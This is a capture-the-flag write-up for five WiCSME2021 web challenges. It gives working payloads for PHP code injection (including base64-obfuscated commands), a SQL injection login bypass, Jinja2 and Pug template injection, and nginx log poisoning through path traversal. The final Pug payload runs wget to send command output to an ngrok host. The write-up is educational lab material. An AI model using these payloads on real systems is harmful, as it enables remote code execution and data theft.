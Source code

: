 # WiCSME2021 CTF

# web challenges:

## 1- SimPlay
![Screenshot at 2021-11-25 19-26-09](https://user-images.githubusercontent.com/52857059/143482771-46d1f5ad-c4c8-4667-882a-6d2c23525010.png)

After clicking the Try Again button :

![Screenshot at 2021-11-25 19-32-26](https://user-images.githubusercontent.com/52857059/143484789-d5764601-d715-4dda-87f6-225147275112.png)

I try php code injection ${system('ls')}

![Screenshot at 2021-11-25 19-35-36](https://user-images.githubusercontent.com/52857059/143484816-0131587c-3d6c-43f1-b947-5afac58b96ae.png)

It works But I can't find flag file.<br />
let's try another payload with base64_decode function --> ${system(base64_decode(bHMgLi4v))}

![Screenshot at 2021-11-25 19-39-34](https://user-images.githubusercontent.com/52857059/143484886-c4cdb4ad-025d-46f2-85c7-57850b62bd3d.png)

I got flag name :")<br />
next step , let's read flag file --> ${system(base64_decode(Y2F0IC4uL2ZsYWcq))}

![Screenshot at 2021-11-25 19-47-54](https://user-images.githubusercontent.com/52857059/143484917-bf996a6b-275b-4965-9982-0742345a348d.png)


## 2- Potent Quotes
![Screenshot at 2021-11-25 19-54-12](https://user-images.githubusercontent.com/52857059/143547317-5ee748d1-aab4-4f33-bc0e-8816ecadb6e9.png)

After downloading the files' challenge locally , I found query of input 

![Screenshot at 2021-11-26 09-53-45](https://user-images.githubusercontent.com/52857059/143547089-f06f8c4b-4749-4c33-9f31-9dc5a7249e64.png)

Let's try injecting pass input with ``` 1' or '1'='1 ```

![Screenshot at 2021-11-26 10-01-17](https://user-images.githubusercontent.com/52857059/143547148-b89b03d8-01be-44c9-97ef-8640261a8e0e.png)


## 3- INCEPTION(easy)
![Screenshot at 2021-11-26 10-04-55](https://user-images.githubusercontent.com/52857059/143547836-fcee23ee-9792-461d-90ca-799a392a5460.png)

After downloading the files' challenge locally ,I noticed The application use template Engine .<br />
I use template injection in python because the application was made with flask.

![Screenshot at 2021-11-26 10-07-03](https://user-images.githubusercontent.com/52857059/143549346-bbbcb5dd-9b70-4215-9bec-90de69252b20.png)

I notice also The flag in the config so the payload is ```{{config.items()}}```

![Screenshot at 2021-11-26 10-19-37](https://user-images.githubusercontent.com/52857059/143549374-639f8833-23a9-4695-9c45-2b810932b34d.png)

HTB{r3s3rv4t1on_t0_h311_1s_a11_s3t!}

## 4- IMF - Landing
![Screenshot at 2021-11-26 10-22-39](https://user-images.githubusercontent.com/52857059/143550824-7b43ab7e-56f6-47b9-aade-9470983c48de.png)

let's try path traversal 

![Screenshot at 2021-11-26 10-23-12](https://user-images.githubusercontent.com/52857059/143551120-363c8368-05e9-407f-8147-b3cab69b1f20.png)
It works.

I notice the server is nginx so we could read the access.log ```/var/log/nginx/access.log```

![Screenshot at 2021-11-26 10-25-59](https://user-images.githubusercontent.com/52857059/143551202-38954555-d1cd-452b-818e-2db06bcc1bd4.png)

I notice the user-agent was printed in access.log

![Screenshot at 2021-11-26 10-38-17](https://user-images.githubusercontent.com/52857059/143551771-872a1ce2-bc54-40b3-bff4-9a29529861a5.png)

let's inject the user-agent with php code injection ```<?php system('ls') ?> ```

![Screenshot at 2021-11-26 10-28-55](https://user-images.githubusercontent.com/52857059/143551895-9deb0453-0197-4ae3-9255-de6f8cca9fdf.png)

![Screenshot at 2021-11-26 10-29-32](https://user-images.githubusercontent.com/52857059/143551935-8d010c3e-b79f-42bf-951b-a7a2ea93acda.png)

Let's try ```<?php system('ls ../') ?>```

![Screenshot at 2021-11-26 10-30-40](https://user-images.githubusercontent.com/52857059/143552105-99f4c676-95a2-4fd3-9c4e-c3210e4d8a64.png)

![Screenshot at 2021-11-26 10-30-54](https://user-images.githubusercontent.com/52857059/143552132-eaf7f512-6dec-4121-a88f-d662d597ddeb.png)

With ```<?php system('cat ../flag*') ?>``` we can read the flag

![Screenshot at 2021-11-26 10-31-40](https://user-images.githubusercontent.com/52857059/143552300-c8c42619-690a-4342-a5a0-46181cd2d3fb.png)

![Screenshot at 2021-11-26 10-31-54](https://user-images.githubusercontent.com/52857059/143552310-8137f420-2872-48f9-8254-cdfddc5e1322.png)

## 5- IMF-searching
![Screenshot at 2021-11-26 10-46-06](https://user-images.githubusercontent.com/52857059/143669832-4f692f5a-95c9-4b4b-b786-71a4123b6961.png)

After downloading the files' challenge locally ,I noticed The application use pug template Engine .<br />
so I will search about pug ssti <br />
I will run in the background ```sudo python3 -m http.server 80``` to recieve response<br />
running ```run ngrok http 80``` <br />
the payload is ```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('wget http://ea4a-154-178-105-159.ngrok.io/?output=$('ls ../')')}()}```

The problem is if we do ls the first result of ls command will appear

![Screenshot at 2021-11-27 08-12-15](https://user-images.githubusercontent.com/52857059/143670460-2a3674e2-19c8-4db9-95d3-8afb4eb70cfd.png)

so let's replace ls ../ to ```ls ../flag*```<br />
payload ```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('wget http://ea4a-154-178-105-159.ngrok.io/?output=$('ls+../flag*')')}()}``` 

![Screenshot at 2021-11-27 08-25-10](https://user-images.githubusercontent.com/52857059/143670712-9eb3d484-133b-42af-a90d-298cc79c1d33.png)

the final payload is ```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('wget http://ea4a-154-178-105-159.ngrok.io/?output=$('cat+../flag*')')}()}```

![Screenshot at 2021-11-27 08-24-41](https://user-images.githubusercontent.com/52857059/143670708-1e8d4c5c-12ef-4021-8e85-642396b9c009.png)









